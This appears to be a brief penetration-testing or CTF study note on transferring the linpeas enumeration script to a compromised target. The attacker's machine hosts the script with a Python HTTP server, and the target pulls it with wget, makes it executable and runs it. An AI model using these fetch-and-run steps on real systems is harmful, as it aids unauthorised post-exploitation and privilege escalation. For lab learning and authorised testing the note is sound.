 - Bringing linpeas on to vulnerable machine to help exploitation
	- with a reverse shell running over a python simple server at port 6969
	- on attack machine 
		- `wget -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh`
		- start a simple python server on port 6969
		- `$ python3 -m http.server 6969`
	- on target machine 
		- navigate to /tmp
		- curl it down and run from attack machine
```bash
$ wget http://attack machine ip:port/linpeas.sh
$ chmod 777 linpeas.sh
$ ./linpeas.sh | tee /tmp/linpeas.txt
```

